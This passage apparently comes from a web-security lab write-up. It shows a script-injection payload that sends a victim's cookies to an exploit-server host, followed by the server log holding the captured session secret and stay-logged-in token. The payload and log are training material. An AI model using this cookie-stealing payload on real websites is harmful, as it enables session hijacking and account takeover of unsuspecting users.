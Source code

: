 We can enter a payload to steal an user's cookie:

```js
<script>document.location='//exploit-0a5100b30484ebb2802716e9011800cb.exploit-server.net/'+document.cookie</script>
```

![Pasted image 20240927134249.png](../../../../IMAGES/Pasted%20image%2020240927134249.png)
If we go to our exploit server logs, we can see this:

![Pasted image 20240927134413.png](../../../../IMAGES/Pasted%20image%2020240927134413.png)
Seems like a secret (cookie) from our victim:


```cookie

10.0.4.235      2024-09-27 18:41:59 +0000 "GET /secret=62Gl05NdioA3apGNjKnBqjJRi4WOlrTp;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"

```
